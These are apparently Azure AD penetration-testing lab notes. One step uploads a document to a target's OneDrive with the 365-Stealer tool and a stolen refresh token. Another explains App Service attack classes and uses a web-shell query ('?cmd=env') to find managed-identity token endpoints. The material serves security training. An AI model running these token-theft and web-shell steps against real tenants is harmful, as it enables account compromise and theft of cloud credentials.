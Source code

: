 

- Start a listener

On the VM, use the 365-stealer web console or CLI to upload the doc to the OneDrive of `target@tenant.onmicrosoft.com`.

```powershell
python C:\xampp\htdocs\365-Stealer\365-Stealer.py --refresh-user target@tenant.onmicrosoft.com --upload C:\AzAD\Tools\studentx.doc
```


## Azure App Service

**Azure App Service is an HTTP-based service for hosting web applications, REST APIs, and mobile back ends.**

- Supports both Windows and Linux environments.
- .NET, .NET Core, Java, Ruby, Node.js, PHP, or Python are supported.
- Each app runs inside a sandbox but isolation depends upon App Service plans:
  - Apps in Free and Shared tiers run on shared VMs.
  - Apps in Standard and Premium tiers run on dedicated VMs.



Windows apps (not running in Windows containers) have local drives, UNC shares, outbound network connectivity (unless restricted), read access to Registry, and event logs.

- In the above case, it is also possible to run a PowerShell script and command shell. But the privileges will be of the low-privileges worker process that uses a random application pool identity.


### App Service Abuse


While there are default security features available with App Service (sandboxing/isolation, encrypted communication, etc.), vulnerabilities in the code deployed are abusable.

> The classic web app vulnerabilities like SQL Injection, Insecure file upload, Injection attacks, etc. do not disappear magically

We will discuss the following:
```
- Insecure File upload
- Server Side Template Injection
- OS Command Injection
```


#### Insecure File Upload

> if the app service uses a Managed Identity, we may have the ability to have interesting permissions on other Azure resources.


After compromising an app service, we can request access tokens for the managed identity.

If the app service contains environment variables **IDENTITY_HEADER** and **IDENTITY_ENDPOINT**, it has a managed identity:
```sh
?cmd=env
```

